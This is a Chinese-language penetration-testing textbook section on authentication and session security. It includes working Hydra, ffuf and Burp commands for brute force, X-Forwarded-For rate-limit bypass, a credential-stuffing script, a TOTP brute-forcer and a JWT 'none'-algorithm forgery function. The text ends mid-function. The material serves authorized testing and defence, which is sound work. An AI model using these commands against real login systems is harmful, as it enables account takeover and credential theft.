




## 14.16 认证与会话测试

认证（Authentication）确认"你是谁"，会话管理（Session Management）维持"你还在"。这两者构成应用安全的第一道也是最持久的防线——一旦认证被绕过或会话被劫持，攻击者即可冒充合法用户执行任意操作。OWASP 将"Broken Authentication"和"Identification and Authentication Failures"长期列为 Top 10 关键风险，因为大量真实数据泄露事件的根源就在这里。

本节从认证机制原理出发，逐项讲解暴力破解防护、凭证安全、多因素认证、密码重置、会话令牌分析、Cookie 安全属性、会话生命周期管理等核心测试点，并配合工具实操和真实案例，帮助读者建立完整的认证与会话安全测试能力。

### 14.16.1 认证与会话管理的底层原理

在开始测试之前，必须理解认证和会话管理的完整工作流程：



**认证因素分类**：

| 因素类别 | 说明 | 示例 |
|---------|------|------|
| 知识因素（Something You Know） | 用户知道的信息 | 密码、PIN、安全问题 |
| 持有因素（Something You Have） | 用户持有的物品 | 手机验证码、硬件Token、智能卡 |
| 生物因素（Something You Are） | 用户的生物特征 | 指纹、虹膜、面部识别 |
| 位置因素（Somewhere You Are） | 用户的物理位置 | IP地理位置、GPS |
| 行为因素（Something You Do） | 用户的行为模式 | 打字节奏、鼠标轨迹 |

**会话管理机制**：

会话Token的传递方式直接影响安全性：

| 传递方式 | 安全等级 | 适用场景 |
|---------|---------|---------|
| HttpOnly Secure Cookie | 高 | Web应用首选方案 |
| Authorization Header (Bearer) | 高 | API / SPA场景 |
| URL参数 | 低 | 不推荐，易泄露到Referer和日志 |
| 隐藏表单字段 | 中 | 传统多步表单，需防CSRF |

### 14.16.2 暴力破解防护测试

暴力破解是最直接的认证攻击方式。如果服务端没有有效的防护机制，攻击者可以用自动化工具穷举密码字典，最终获取合法账户访问权限。

**测试目标**：

1. 是否存在速率限制（Rate Limiting）
2. 是否存在账户锁定机制（Account Lockout）
3. 是否有验证码（CAPTCHA）保护
4. 错误信息是否泄露用户名存在性
5. 是否支持多因素认证

**14.16.2.1 使用 Hydra 进行暴力破解**

Hydra 是最常用的在线暴力破解工具，支持 HTTP-GET、HTTP-POST、FTP、SSH 等 50+ 协议。

```bash
# HTTP-POST 表单暴力破解
# 参数说明：
#   -l admin        指定单个用户名
#   -P wordlist.txt 指定密码字典
#   http-post-form  指定POST表单
#   /login          登录路径
#   user=^USER^     用户名占位符
#   pass=^PASS^     密码占位符
#   :F=Invalid      登录失败时响应包含的字符串（用于判断成功/失败）

hydra -l admin -P /usr/share/wordlists/rockyou.txt \
  target.com http-post-form \
  "/login:user=^USER^&pass=^PASS^:F=Invalid credentials"

# 使用用户名字典 + 密码字典组合爆破
hydra -L users.txt -P passwords.txt \
  target.com http-post-form \
  "/login:user=^USER^&pass=^PASS^:F=Invalid credentials"

# 指定非标准端口
hydra -l admin -P passwords.txt -s 8443 \
  target.com https-post-form \
  "/api/login:username=^USER^&password=^PASS^:F=error"

# 带代理的爆破
hydra -l admin -P passwords.txt \
  -e nsr \  # n=空密码, s=用户名作密码, r=反转用户名
  target.com http-post-form \
  "/login:user=^USER^&pass=^PASS^:F=Invalid"

# 限制并发连接数，避免触发防护
hydra -l admin -P passwords.txt -t 4 -W 3 \
  target.com http-post-form \
  "/login:user=^USER^&pass=^PASS^:F=Invalid"
```

**Hydra 关键参数速查**：

| 参数 | 说明 | 推荐值 |
|------|------|--------|
| `-t N` | 并发任务数 | 测试用4-16，隐蔽用1-2 |
| `-W N` | 等待间隔（秒） | 绕过限速时设为5-30 |
| `-f` | 找到第一个有效凭证即停止 | 漏洞验证时使用 |
| `-F` | 找到主机第一个有效凭证即停止主机扫描 | 多目标扫描时使用 |
| `-e nsr` | 尝试空密码、用户名、反转用户名 | 快速测试默认凭证 |
| `-o file` | 输出结果到文件 | 生产测试时必须记录 |
| `-vV` | 详细输出 | 调试时使用 |

**14.16.2.2 使用 Burp Intruder 进行精细化测试**

Burp Intruder 比 Hydra 更灵活，能根据响应长度、状态码、关键词等多维度判断成功/失败，适合绕过复杂防护机制的场景。

**操作步骤**：

1. 在 Burp Proxy 中拦截登录请求
2. 右键发送到 Intruder（Send to Intruder）
3. Positions 标签页：清除默认标记，选中密码值，点击 Add § 标记
4. Payloads 标签页：选择 Simple list，加载密码字典
5. Options 标签页：在 Grep - Match 中添加"Invalid"、"成功"、"欢迎"等关键词
6. 点击 Start Attack，观察响应长度和状态码差异

**高级技巧——绕过速率限制**：

```text
# Burp Intruder 的 Pitchfork 模式
# 同时设置用户名和密码为变量
# 使用 Null Payloads 配合时间间隔

# 在 Resource Pool 中设置：
# - Maximum concurrent requests: 1
# - Delay between requests: 2000ms

# 利用不同的HTTP头部绕过IP限制
X-Forwarded-For: 10.0.0.{n}
X-Real-IP: 192.168.1.{n}
X-Originating-IP: 172.16.0.{n}
```

**14.16.2.3 使用 ffuf 高速模糊测试**

ffuf 是 Go 语言编写的高性能模糊测试工具，适合大规模凭证测试。

```bash
# 基本暴力破解
ffuf -u https://target.com/login \
  -X POST \
  -d "username=admin&password=FUZZ" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -w /usr/share/wordlists/rockyou.txt \
  -fc 401 \  # 过滤401响应
  -fs 42 \   # 过滤响应长度42字节的（失败响应）
  -mc 200    # 匹配200响应

# 用户名枚举
ffuf -u https://target.com/login \
  -X POST \
  -d "username=FUZZ&password=invalid" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -w users.txt \
  -mc all \
  -fs 1234  # 通过响应长度差异识别有效用户名

# 多参数组合（Pitchfork模式）
ffuf -u https://target.com/login \
  -X POST \
  -d "username=FUZZUSER&password=FUZZPASS" \
  -w users.txt:FUZZUSER \
  -w passwords.txt:FUZZPASS \
  -mode pitchfork \
  -fc 401
```

**14.16.2.4 测试结果判定标准**

| 测试项 | 安全 | 有风险 | 高危 |
|--------|------|--------|------|
| 速率限制 | 5次失败后要求验证码或延迟 | 仅记录日志无实际阻断 | 无任何限制 |
| 账户锁定 | 5-10次失败后锁定15分钟+ | 锁定后自动快速解锁 | 无锁定机制 |
| 验证码 | 5次失败后触发，且不可程序绕过 | 存在但可OCR识别 | 无验证码 |
| 错误信息 | 统一提示"用户名或密码错误" | 分别提示"用户不存在"/"密码错误" | 返回详细错误堆栈 |
| 密码复杂度 | 最少8位+大小写+数字+特殊字符 | 仅要求6位 | 无任何限制 |

**14.16.2.5 用户名枚举漏洞**

当登录接口对"用户不存在"和"密码错误"返回不同的响应时，攻击者可以枚举有效用户名，大幅缩小暴力破解的搜索空间。

**检测方法**：

```bash
# 比较两个请求的响应差异
# 请求1：使用不存在的用户名
curl -s -o resp1.txt -w "%{http_code} %{size_download}" \
  -d "username=nonexistent_user&password=test" \
  https://target.com/login

# 请求2：使用可能存在的用户名（如admin）
curl -s -o resp2.txt -w "%{http_code} %{size_download}" \
  -d "username=admin&password=test" \
  https://target.com/login

# 差异比较
diff resp1.txt resp2.txt
```

**常见泄露方式**：

- 响应内容不同："用户不存在" vs "密码错误"
- 响应长度不同：即使错误信息相同，页面结构可能不同
- 响应时间不同：存在用户时验证密码哈希，不存在时直接返回，时间差可被探测
- HTTP状态码不同：如 404 vs 401
- 注册/密码重置接口泄露：注册时提示"该邮箱已注册"

### 14.16.3 凭证安全测试

**14.16.3.1 默认凭证检测**

大量应用部署后从未更改默认密码。必须系统性地测试常见默认凭证。

```python
# default_creds.py - 默认凭证测试脚本
import requests

DEFAULT_CREDS = [
    # 格式：(用户名, 密码, 来源/说明)
    ("admin", "admin", "通用默认"),
    ("admin", "password", "通用默认"),
    ("admin", "123456", "弱密码"),
    ("admin", "admin123", "常见组合"),
    ("root", "root", "Linux默认"),
    ("root", "toor", "Kali默认"),
    ("admin", "changeme", "首次登录提示"),
    ("test", "test", "测试账户"),
    ("guest", "guest", "访客账户"),
    ("user", "user", "普通用户默认"),
    ("administrator", "your_password", "Windows风格"),
    ("admin", "", "空密码"),
]

def test_default_creds(url, username_field="username", password_field="password"):
    """测试默认凭证，返回有效的凭证列表"""
    valid_creds = []
    for username, password, source in DEFAULT_CREDS:
        try:
            resp = requests.post(url, data={
                username_field: username,
                password_field: password
            }, allow_redirects=False, timeout=10)

            # 判断登录成功（根据实际应用调整）
            if resp.status_code in (301, 302) and "dashboard" in resp.headers.get("Location", ""):
                print(f"[+] 有效凭证: {username}:{password} ({source})")
                valid_creds.append((username, password, source))
            elif "Welcome" in resp.text or "Dashboard" in resp.text:
                print(f"[+] 有效凭证: {username}:{password} ({source})")
                valid_creds.append((username, password, source))
        except requests.RequestException as e:
            print(f"[-] 请求失败: {e}")

    return valid_creds

if __name__ == "__main__":
    target = "https://target.com/login"
    results = test_default_creds(target)
    if results:
        print(f"\n发现 {len(results)} 个有效默认凭证！")
    else:
        print("\n未发现有效默认凭证。")
```

**14.16.3.2 密码策略测试**

```bash
# 测试密码策略边界
# 以下密码应被拒绝，如果接受则存在安全问题

# 最小长度测试
curl -d "newpass=123" https://target.com/change-password    # 3位
curl -d "newpass=12345" https://target.com/change-password  # 5位
curl -d "newpass=12345678" https://target.com/change-password  # 8位

# 复杂度测试
curl -d "newpass=aaaaaaaa" https://target.com/change-password  # 无多样性
curl -d "newpass=AAAAAAAA" https://target.com/change-password  # 仅大写
curl -d "newpass=password" https://target.com/change-password  # 常见密码

# 历史密码检测
curl -d "newpass=旧密码" https://target.com/change-password  # 应拒绝

# 常见密码字典测试
# SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt
```

**14.16.3.3 凭证填充攻击（Credential Stuffing）测试**

凭证填充利用数据泄露中获取的用户名-密码对，自动化尝试登录其他网站（因为用户倾向于在多个网站使用相同密码）。

```bash
# 使用 Sentry MBA（概念演示，实际测试需授权）
# 格式: combo_list.txt 每行 "username:password"

# 自定义Python脚本测试
import requests
import csv

def credential_stuffing(combo_file, login_url):
    """
    仅用于授权测试！
    combo_file: CSV格式，每行 email,password
    """
    with open(combo_file, 'r') as f:
        reader = csv.reader(f)
        for email, password in reader:
            resp = requests.post(login_url, json={
                "email": email,
                "password": password
            }, allow_redirects=False)

            if resp.status_code == 302:
                print(f"[!] 成功: {email}:{password}")
                # 立即登出，不执行其他操作
```

### 14.16.4 多因素认证（MFA）测试

多因素认证是防止凭证泄露后账户被接管的关键防线。但 MFA 的实现可能存在绕过漏洞。

**14.16.4.1 MFA 绕过测试要点**

| 绕过方法 | 测试步骤 | 常见原因 |
|---------|---------|---------|
| 直接访问受保护页面 | 输入密码后，在MFA页面直接请求 /dashboard | 服务端未在每个请求验证MFA状态 |
| 响应篡改 | 拦截MFA失败响应，修改为成功标志 | 客户端控制MFA验证结果 |
| 重放MFA Token | 记录成功的OTP，重放到其他会话 | OTP未与会话绑定 |
| 暴力破解OTP | 对4-6位OTP穷举 | 无速率限制、无尝试次数限制 |
| 时间窗口利用 | 某些TOTP实现允许前后30秒的Token | 时钟偏移容忍度过大 |
| 备用恢复码 | 测试恢复码强度和使用次数限制 | 恢复码可重复使用或强度不足 |

**14.16.4.2 TOTP 暴力破解测试**

```python
# totp_test.py - 测试TOTP暴力破解防护
import requests
import pyotp

def test_totp_brute_force(session_token, totp_secret, target_url):
    """
    测试服务端是否限制TOTP尝试次数
    TOTP为6位数字，理论上有1,000,000种可能
    如果无限制，可在1000秒内暴力破解（每秒1000次）
    """
    totp = pyotp.TOTP(totp_secret)
    attempts = 0
    max_attempts = 20  # 安全系统应在3-5次后锁定

    for code in range(1000000):
        code_str = str(code).zfill(6)
        resp = requests.post(target_url, json={
            "session": session_token,
            "otp": code_str
        })

        attempts += 1
        if resp.status_code == 200:
            print(f"[+] OTP正确: {code_str}，第{attempts}次尝试")
            return True

        if attempts >= max_attempts:
            if resp.status_code == 429:
                print(f"[-] 在{attempts}次尝试后被限速 - 安全")
                return False
            elif "locked" in resp.text.lower():
                print(f"[-] 在{attempts}次尝试后账户被锁定 - 安全")
                return False
            else:
                print(f"[!] {attempts}次尝试后未触发任何防护 - 不安全！")
                return False

    return False
```

**14.16.4.3 SMS验证码安全测试**

SMS 验证码虽然常见，但存在多种攻击向量：

1. **SS7协议攻击**：利用电信网络漏洞拦截短信（需要特殊条件）
2. **SIM Swap**：通过社会工程劫持目标手机号
3. **验证码嗅探**：在不安全的网络环境中截获明文短信
4. **验证码重放**：同一个验证码在不同会话中重复使用
5. **验证码暴力破解**：4-6位纯数字验证码空间极小

**测试要点**：

```text
# 测试项清单
□ 验证码长度：4位（不安全）→ 6位（标准）→ 8位（推荐）
□ 验证码有效期：应为5-10分钟，过期后立即失效
□ 尝试次数限制：3-5次错误后失效
□ 新验证码生成时旧验证码是否失效
□ 验证码是否与请求会话绑定
□ 是否可跳过验证码直接访问后续流程
□ 是否存在验证码返回到前端响应中的情况
```

### 14.16.5 密码重置机制测试

密码重置是认证流程中最容易出现漏洞的环节，因为其设计需要在安全性和可用性之间取得平衡。

**14.16.5.1 密码重置流程审计**



**14.16.5.2 常见密码重置漏洞**

| 漏洞类型 | 攻击方式 | 测试方法 |
|---------|---------|---------|
| Token可预测 | 根据已知Token推算下一个Token | 请求多个Token，分析规律 |
| Token未过期 | Token长期有效 | 使用旧Token尝试重置 |
| Token未与用户绑定 | A的Token可以重置B的密码 | 修改请求中的用户标识 |
| 邮箱/手机篡改 | 修改请求中的目标邮箱 | 拦截请求修改收件人字段 |
| Token暴力破解 | 穷举短Token | 对6位数字Token暴力破解 |
| 响应篡改 | 修改响应中的重定向URL | 改URL到攻击者控制的页面 |
| 重放攻击 | 多次使用同一Token重置 | 重置后再次使用同一链接 |

**14.16.5.3 Token安全性测试**

```bash
# 测试Token可预测性
# 1. 请求10个重置Token
for i in $(seq 1 10); do
  curl -s -o /dev/null -w "%{redirect_url}\n" \
    -d "email=test@test.com" \
    https://target.com/forgot-password
  sleep 2
done

# 2. 分析Token模式
# - 是否是时间戳编码？
# - 是否是递增序列？
# - 是否是MD5/SHA256(可预测输入)？
# - 熵值是否足够？（至少128位）

# 3. 测试Token长度和字符集
# 安全标准：至少32字符，包含大小写+数字+特殊字符
```

**Python Token 分析脚本**：

```python
import math
from collections import Counter

def analyze_tokens(tokens: list[str]) -> dict:
    """分析重置Token的安全性"""
    results = {}

    # 长度分析
    lengths = [len(t) for t in tokens]
    results['lengths'] = lengths
    results['consistent_length'] = len(set(lengths)) == 1

    # 字符集分析
    charset = set(''.join(tokens))
    results['charset_size'] = len(charset)
    results['charset'] = ''.join(sorted(charset))

    # 熵计算
    if results['consistent_length']:
        token_len = lengths[0]
        charset_size = len(charset)
        entropy = token_len * math.log2(charset_size)
        results['entropy_bits'] = round(entropy, 2)
        results['brute_force_time'] = estimate_brute_force(entropy)

    # 模式检测
    results['sequential'] = check_sequential(tokens)
    results['timestamp_based'] = check_timestamp(tokens)

    return results

def estimate_brute_force(entropy_bits: float) -> str:
    """估算暴力破解所需时间（每秒10亿次尝试）"""
    attempts = 2 ** entropy_bits
    seconds = attempts / 1e9
    if seconds < 60:
        return f"{seconds:.0f}秒 - 极不安全"
    elif seconds < 3600:
        return f"{seconds/60:.0f}分钟 - 不安全"
    elif seconds < 86400:
        return f"{seconds/3600:.0f}小时 - 不安全"
    elif seconds < 86400 * 365:
        return f"{seconds/86400:.0f}天 - 有风险"
    else:
        years = seconds / (86400 * 365)
        if years > 1e6:
            return f"{years:.0e}年 - 安全"
        return f"{years:.0f}年 - 较安全"
```

### 14.16.6 会话管理测试

会话管理的安全性直接关系到认证状态的持久性。即使认证过程完美，如果会话管理存在漏洞，攻击者仍然可以接管用户账户。

**14.16.6.1 会话固定攻击（Session Fixation）**

会话固定攻击的核心是：攻击者预先设置一个已知的会话ID，诱导受害者使用该ID登录，之后攻击者即可使用该ID冒充受害者。

**测试步骤**：

```bash
# 步骤1：获取一个会话Token（未登录状态）
TOKEN_BEFORE=$(curl -s -c - https://target.com/login | grep session | awk '{print $NF}')
echo "登录前Token: $TOKEN_BEFORE"

# 步骤2：携带该Token进行登录
curl -s -b "session=$TOKEN_BEFORE" \
  -d "username=victim&password=correct_password" \
  -L https://target.com/login

# 步骤3：登录后检查Token是否改变
TOKEN_AFTER=$(curl -s -b "session=$TOKEN_BEFORE" \
  -c - https://target.com/dashboard | grep session | awk '{print $NF}')
echo "登录后Token: $TOKEN_AFTER"

# 步骤4：比较
if [ "$TOKEN_BEFORE" = "$TOKEN_AFTER" ]; then
  echo "[!] 存在会话固定漏洞！登录后Token未改变"
else
  echo "[-] 会话Token在登录后已更新 - 安全"
fi
```

**会话固定修复方案**：

- 登录成功后立即重新生成会话ID
- 旧会话ID立即失效
- 新会话ID应通过 Set-Cookie 头部下发，不可通过URL传递

**14.16.6.2 会话ID安全性分析**

会话ID必须具备足够的随机性，不可被预测。

```python
# session_analysis.py - 会话ID熵值分析
import re
import math
from collections import Counter

def analyze_session_ids(session_ids: list[str]) -> dict:
    """分析会话ID的随机性和安全性"""

    results = {}

    # 1. 长度分析
    lengths = [len(sid) for sid in session_ids]
    results['min_length'] = min(lengths)
    results['max_length'] = max(lengths)
    results['avg_length'] = sum(lengths) / len(lengths)

    # 安全标准：至少128位熵
    if results['avg_length'] < 16:
        results['length_warning'] = "会话ID长度不足，熵值可能不够"

    # 2. 字符集分析
    all_chars = ''.join(session_ids)
    charset = set(all_chars)
    results['charset_size'] = len(charset)

    if len(charset) <= 10:
        results['charset_type'] = "纯数字（不安全）"
    elif len(charset) <= 16:
        results['charset_type'] = "十六进制"
    elif len(charset) <= 36:
        results['charset_type'] = "字母+数字"
    else:
        results['charset_type'] = "Base64/全字符集"

    # 3. 字符分布均匀性（卡方检验）
    expected_freq = len(all_chars) / len(charset)
    observed = Counter(all_chars)
    chi_square = sum(
        (count - expected_freq) ** 2 / expected_freq
        for count in observed.values()
    )
    results['chi_square'] = round(chi_square, 2)
    # 低卡方值表示分布均匀（好的随机性）

    # 4. 位置熵分析
    if results['min_length'] == results['max_length']:
        entropy_per_position = []
        for pos in range(results['min_length']):
            chars_at_pos = [sid[pos] for sid in session_ids]
            freq = Counter(chars_at_pos)
            pos_entropy = -sum(
                (c / len(session_ids)) * math.log2(c / len(session_ids))
                for c in freq.values()
            )
            entropy_per_position.append(round(pos_entropy, 3))
        results['position_entropy'] = entropy_per_position

        # 检查是否有某些位置熵值为0（可预测的固定字符）
        zero_positions = [i for i, e in enumerate(entropy_per_position) if e == 0]
        if zero_positions:
            results['warning'] = f"位置 {zero_positions} 熵值为0，存在可预测字符"

    # 5. 总熵计算
    if results['min_length'] == results['max_length']:
        total_entropy = results['avg_length'] * math.log2(results['charset_size'])
        results['total_entropy_bits'] = round(total_entropy, 2)

        if total_entropy < 64:
            results['security_rating'] = "不安全 - 低于64位熵"
        elif total_entropy < 128:
            results['security_rating'] = "有风险 - 64-128位熵"
        else:
            results['security_rating'] = "安全 - 128位以上熵"

    return results
```

**会话ID安全性标准**：

| 特征 | 不安全 | 有风险 | 安全 |
|------|--------|--------|------|
| 长度 | < 16 字符 | 16-24 字符 | ≥ 32 字符 |
| 字符集 | 纯数字 | 十六进制 | 全ASCII/Base64 |
| 熵值 | < 64 位 | 64-128 位 | ≥ 128 位 |
| 可预测性 | 递增/时间戳 | 部分可预测 | 完全随机 |
| 生成源 | 伪随机 | Mersenne Twister | CSPRNG |

**14.16.6.3 Cookie 安全属性测试**

Cookie 是最常用的会话存储载体，其安全属性的正确配置至关重要。

```bash
# 抓取并分析Cookie属性
curl -sv https://target.com/login 2>&1 | grep -i "set-cookie"

# 期望看到的正确配置：
# Set-Cookie: session=xxx; HttpOnly; Secure; SameSite=Strict; Path=/; Domain=target.com
```

**属性详解与测试**：

| 属性 | 作用 | 缺失时的风险 | 测试方法 |
|------|------|-------------|---------|
| `HttpOnly` | 禁止JavaScript访问Cookie | XSS可窃取Cookie | JS执行`document.cookie`，不应看到会话Cookie |
| `Secure` | 仅通过HTTPS传输 | HTTP下Cookie被中间人截获 | 检查Set-Cookie头是否包含Secure标志 |
| `SameSite=Strict` | 完全禁止跨站携带Cookie | CSRF攻击 | 跨域请求是否携带Cookie |
| `SameSite=Lax` | GET跨站允许，POST禁止 | 仅防御POST型CSRF | 测试跨站GET请求 |
| `Path` | Cookie的有效路径 | 路径过宽导致敏感Cookie被不必要页面访问 | 检查Path值是否精确 |
| `Domain` | Cookie的有效域名 | 过宽的Domain导致Cookie泄露给子域 | 检查Domain是否过于宽泛 |
| `Max-Age/Expires` | Cookie有效期 | 过长有效期增加劫持窗口 | 检查过期时间是否合理 |

**自动化测试脚本**：

```python
import requests

def audit_cookie_security(url: str) -> list[dict]:
    """审计目标URL返回的所有Cookie的安全属性"""
    resp = requests.get(url)
    issues = []

    for cookie in resp.cookies:
        cookie_issues = {
            'name': cookie.name,
            'value': cookie.value[:20] + '...' if len(cookie.value) > 20 else cookie.value,
            'problems': []
        }

        # 检查 HttpOnly
        if not cookie.has_nonstandard_attr('HttpOnly'):
            cookie_issues['problems'].append({
                'severity': 'HIGH',
                'issue': '缺少 HttpOnly 属性',
                'detail': 'XSS攻击可通过document.cookie窃取此Cookie'
            })

        # 检查 Secure
        if not cookie.secure:
            cookie_issues['problems'].append({
                'severity': 'HIGH',
                'issue': '缺少 Secure 属性',
                'detail': 'HTTP连接下Cookie将以明文传输'
            })

        # 检查 SameSite
        samesite = cookie.get_nonstandard_attr('SameSite')
        if not samesite:
            cookie_issues['problems'].append({
                'severity': 'MEDIUM',
                'issue': '缺少 SameSite 属性',
                'detail': '默认为Lax，建议显式设置为Strict或Lax'
            })
        elif samesite.lower() == 'none':
            cookie_issues['problems'].append({
                'severity': 'MEDIUM',
                'issue': 'SameSite=None',
                'detail': '允许跨站请求携带Cookie，需配合Secure使用'
            })

        # 检查是否在URL中传递
        # （这个需要结合请求历史分析）

        if cookie_issues['problems']:
            issues.append(cookie_issues)

    return issues

# 执行审计
results = audit_cookie_security("https://target.com")
for r in results:
    print(f"\nCookie: {r['name']}")
    for p in r['problems']:
        print(f"  [{p['severity']}] {p['issue']}: {p['detail']}")
```

**14.16.6.4 会话超时与生命周期测试**

```text
测试清单：

□ 空闲超时（Idle Timeout）
  - 登录后不操作，等待30分钟，是否自动登出？
  - 建议值：15-30分钟（金融应用5分钟）

□ 绝对超时（Absolute Timeout）
  - 登录后持续操作，达到最大会话时间后是否强制登出？
  - 建议值：8-12小时

□ 会话终止（Session Termination）
  - 点击"退出"后，会话Token是否立即失效？
  - 后退按钮能否访问之前的页面？
  - 在另一个设备上登出后，当前设备是否同步失效？

□ 并发会话控制
  - 同一账户是否允许同时在多个设备登录？
  - 如果允许，是否有会话管理界面让用户查看/终止其他会话？
  - 新登录时是否应该使旧会话失效？

□ Token刷新机制
  - 会话Token是固定不变还是会定期刷新？
  - 每次请求后是否返回新的Token？
  - 旧Token在刷新后是否立即失效？
```

### 14.16.7 OAuth 2.0 与 JWT 安全测试

现代Web应用大量使用 OAuth 2.0 和 JWT（JSON Web Token），这两者的安全实现需要专门的测试方法。

**14.16.7.1 OAuth 2.0 常见漏洞**



**关键测试点**：

| 漏洞 | 测试方法 | 利用方式 |
|------|---------|---------|
| redirect_uri未严格校验 | 修改回调URL为攻击者域名 | 窃取授权码/token |
| state参数缺失 | 移除state参数发起授权 | CSRF攻击绑定攻击者账户 |
| scope提升 | 在请求中添加额外scope | 获取超出预期的权限 |
| token泄露到前端 | 检查URL fragment中的token | 通过Referer头泄露 |
| PKCE未启用 | 移除code_verifier参数 | 公共客户端授权码拦截 |

**14.16.7.2 JWT 安全测试**

JWT 由三部分组成：Header.Payload.Signature，以 `.` 分隔，各部分 Base64URL 编码。

```bash
# 解码JWT
echo "eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJ1c2VyMSJ9.signature" | \
  cut -d. -f1 | base64 -d 2>/dev/null  # Header
echo "eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJ1c2VyMSJ9.signature" | \
  cut -d. -f2 | base64 -d 2>/dev/null  # Payload
```

**JWT 关键攻击向量**：

```python
# jwt_attacks.py - JWT安全测试
import base64
import json
import hmac
import hashlib

def test_none_algorithm(token: str) -> str:
    """攻击1：将算法改为none，移除签名"""
    header, payload, _ = token.split('.')
    # 解码header
    header_data = json.loads(base64.urlsafe_b64decode(header + '=='))
    # 修改算法为none
    header_data['alg'] = 'none'
    # 编码新header
    new_header = base64.urlsafe_b64encode(
        json.dumps(header_data).encode()
    ).rstrip(b'=').decode()
    # 无签名
    new_payload = payload
    return f"{new_header}.{new_payload}."

def test_algorithm_confusion(token: str, public_key_pem: str) -> str:
    """
    攻击2：算法混淆（RS256 -> HS256）
    如果服务端使用RS256（非对称）但接受HS256（对称），
    攻击者可以用公钥作为HMAC密钥签名
    """
    header, payload, _ = token.split('.')
